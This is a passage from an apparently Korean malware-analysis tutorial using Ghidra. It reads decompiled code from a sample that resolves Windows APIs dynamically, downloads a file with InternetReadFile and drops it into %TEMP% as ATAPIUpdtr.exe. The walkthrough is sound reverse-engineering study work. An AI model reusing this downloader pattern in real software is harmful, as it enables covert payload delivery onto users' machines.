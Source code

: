 그리고 GET Request를 보내네요. 음. 대충 예상을 해보면 request를 통해 파일을 다운로드한다라는 가정을 세울 수 있겠습니다. 밑에를 더 확인해볼까요?

```cpp
temp_path = getenv("TEMP");
temp_path_len = strlen(temp_path);
DAT_00416028 = (LPCSTR)malloc(temp_path_len + 0x1000);
strcpy(DAT_00416028,temp_path);
```

환경변수에 설정되어 있는 TEMP 폴더의 경로를 받아오네요. 위에 정보에서 더 추가를 해보면 temp 경로에 파일을 저장한다.

```cpp
MultiByteToWideChar(0,0,DAT_00416028,-1,DAT_00416024,0x1000);
hModule = GetModuleHandleW(L"kernel32.dll");
CreateFileW_addr = (CreateFileW *)GetProcAddress(hModule,"CreateFileW");
local_44 = (*CreateFileW_addr)(DAT_00416024,0xc0000000,0,(LPSECURITY_ATTRIBUTES)0x0,2,0x80,
                               (HANDLE)0x0);
local_5c = 0;
hModule = GetModuleHandleW(L"wininet.dll");
InternetReadFile_addr = (InternetReadFile *)GetProcAddress(hModule,"InternetReadFile");
hModule = GetModuleHandleW(L"kernel32.dll");
WriteFile_addr = (WriteFile *)GetProcAddress(hModule,"WriteFile");
if (local_34 == 0) {
    uVar3 = 0xe;
}
else {
    local_60 = 0;
    while( true ) {
        WVar4 = (*InternetReadFile_addr)(local_24,local_38,0x2000,&local_60);
        if ((WVar4 == 0) || (local_60 == 0)) {
            bVar2 = false;
        }
        else {
            bVar2 = true;
        }
        if (!bVar2) break;
        (*WriteFile_addr)(local_44,local_38,local_60,&local_5c,(LPOVERLAPPED)0x0);
}
```

어김없이 예상은 적중합니다. `InternetReadFile`을 통해서 파일을 읽어와 `%TEMP%`에 `CreateFile`을 하는군요. 저장되는 파일의 이름은 무엇일까...

![](ghidra_part5/Untitled%207.png)

`ATAPIUpdtr.exe` 파일이네요.

# 정리
